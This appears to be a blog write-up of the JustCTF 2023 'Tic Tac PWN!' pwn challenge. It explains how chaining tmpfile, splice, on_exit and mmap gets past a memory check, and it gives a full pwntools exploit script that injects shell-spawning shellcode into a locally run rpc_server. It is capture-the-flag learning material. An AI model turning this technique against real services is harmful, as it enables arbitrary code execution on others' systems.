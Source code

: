 ```yaml
---
title: "[JustCTF-2023] Tic Tac PWN!"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue
I didn't solve this challenge, this is an after game reproducing write-up.

The solution is from my teammates @in1t.

# Challenge
- We are allowed to execute arbitrary libc functions (not starting with `_`)
- All parameters only have 4 bytes
- There is a check function to check if we have allocated memory less than 0x100000000. 

# on_exit

Can we register more than one function by using `on_exit`?
I wrote a demo and got the answer: 

```c
#include <stdio.h>
int func1(){
    puts("1");
}
int func2(){
    puts("2");
}
int main(){
on_exit(func1);
on_exit(func2);
}
```
The result of the above code is `2\n1\n` which means we can register multiple functions and the execution order is "FILO".


# Solution

Ideas:
- Even if we `exit` because of the function exit, we can still use `on_exit` to register a function before `_exit`
- so the last part of our exploit script should be `call(on_exit)+call(mmap)`
- Before creating the memory, we can't prepare our shellcode on it, but we can map a file to memory

Solution:
- call `tmpfile` to create an fd
- call `splice` to write our shellcode to the fd
- call `on_exit` to register a function before `_exit`
- call `mmap` to map the tmpfile to memory

# Expoit
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

p = process(["./rpc_server"], env={'LD_PRELOAD':'./rpc_tictactoe.so'})
ru      = lambda a:     p.readuntil(a)
def call(func,arg1=0,arg2=0,arg3=0,arg4=0,arg5=0,arg6=0):
    p.sendline(f'x:{func} '.encode())
    p.sendline(f'{arg1} {arg2} {arg3} {arg4} {arg5} {arg6}'.encode())
sh = asm(shellcraft.sh())
call("tmpfile")
ru("RPC\n")
call("splice",0,0,3,0,len(sh),0)
p.send(sh)
ru("RPC\n")
call("on_exit",0x10000,0)
ru("RPC\n")
call("mmap",0x10000,0x1000,7,0x1,3,0)
ru("RPC\n")
p.interactive()
```

# Epilogue

I learned some interesting functions: `tmpfile`, `splice`, and `on_exit`.
All parameters of them are less than 4 bytes, we can use them when the registers are limited.


# refference
tmpfile: https://man7.org/linux/man-pages/man3/tmpfile.3.html
splice: https://man7.org/linux/man-pages/man2/splice.2.html
on_exit: https://man7.org/linux/man-pages/man3/on_exit.3.html
mmap: https://man7.org/linux/man-pages/man2/mmap.2.html